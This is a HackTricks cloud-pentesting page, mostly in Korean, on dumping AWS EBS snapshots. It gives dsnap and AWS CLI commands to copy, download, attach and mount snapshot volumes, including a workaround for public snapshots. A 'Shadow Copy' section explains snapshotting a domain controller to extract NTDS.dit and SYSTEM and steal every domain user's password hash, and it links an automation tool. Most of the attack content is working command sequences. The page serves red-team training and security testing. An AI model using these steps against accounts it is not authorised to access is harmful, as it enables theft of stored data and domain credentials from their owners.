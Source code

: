 # AWS - EBS Snapshot Dump

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}

## 스냅샷을 로컬에서 확인하기
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**참고**: `dsnap`은 공개 스냅샷을 다운로드할 수 없습니다. 이를 우회하려면 스냅샷을 개인 계정에 복사한 후 해당 스냅샷을 다운로드할 수 있습니다:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

이 기술에 대한 자세한 정보는 [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)의 원본 연구를 확인하세요.

Pacu를 사용하여 [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots) 모듈로 이 작업을 수행할 수 있습니다.

## AWS에서 스냅샷 확인하기

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**당신의 제어 하에 있는 EC2 VM에 마운트하기** (백업 복사본과 동일한 지역에 있어야 함):

1단계: EC2 –> 볼륨으로 이동하여 원하는 크기와 유형의 새 볼륨을 생성합니다.

이 작업을 수행하려면 다음 명령을 따르십시오:

* EC2 인스턴스에 연결할 EBS 볼륨을 생성합니다.
* EBS 볼륨과 인스턴스가 동일한 존에 있는지 확인합니다.

2단계: 생성된 볼륨을 마우스 오른쪽 버튼으로 클릭하여 "볼륨 연결" 옵션을 선택합니다.

3단계: 인스턴스 텍스트 상자에서 인스턴스를 선택합니다.

이 작업을 수행하려면 다음 명령을 사용하십시오:

* EBS 볼륨을 연결합니다.

4단계: EC2 인스턴스에 로그인하고 `lsblk` 명령을 사용하여 사용 가능한 디스크를 나열합니다.

5단계: `sudo file -s /dev/xvdf` 명령을 사용하여 볼륨에 데이터가 있는지 확인합니다.

위 명령의 출력이 "/dev/xvdf: data"를 보여주면 볼륨이 비어 있다는 의미입니다.

6단계: `sudo mkfs -t ext4 /dev/xvdf` 명령을 사용하여 볼륨을 ext4 파일 시스템으로 포맷합니다. 또는 `sudo mkfs -t xfs /dev/xvdf` 명령을 사용하여 xfs 형식도 사용할 수 있습니다. ext4 또는 xfs 중 하나를 사용해야 함을 유의하십시오.

7단계: 새 ext4 볼륨을 마운트할 선택한 디렉토리를 생성합니다. 예를 들어 "newvolume"이라는 이름을 사용할 수 있습니다.

이 작업을 수행하려면 `sudo mkdir /newvolume` 명령을 사용하십시오.

8단계: `sudo mount /dev/xvdf /newvolume/` 명령을 사용하여 볼륨을 "newvolume" 디렉토리에 마운트합니다.

9단계: "newvolume" 디렉토리로 이동하고 디스크 공간을 확인하여 볼륨 마운트를 검증합니다.

이 작업을 수행하려면 다음 명령을 사용하십시오:

* `/newvolume`으로 디렉토리를 변경합니다.
* `df -h .` 명령을 사용하여 디스크 공간을 확인합니다. 이 명령의 출력은 "newvolume" 디렉토리의 여유 공간을 보여야 합니다.

Pacu를 사용하여 `ebs__explore_snapshots` 모듈로 이 작업을 수행할 수 있습니다.

## AWS에서 스냅샷 확인하기 (cli 사용) 

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Shadow Copy

**`EC2:CreateSnapshot`** 권한을 가진 AWS 사용자는 **도메인 컨트롤러의 스냅샷을 생성**하여 이를 자신이 제어하는 인스턴스에 마운트하고 **NTDS.dit 및 SYSTEM** 레지스트리 하이브 파일을 Impacket의 secretsdump 프로젝트에 사용할 수 있도록 내보내어 모든 도메인 사용자 해시를 훔칠 수 있습니다.

이 도구를 사용하여 공격을 자동화할 수 있습니다: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) 또는 스냅샷을 생성한 후 이전 기술 중 하나를 사용할 수 있습니다.

## References

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
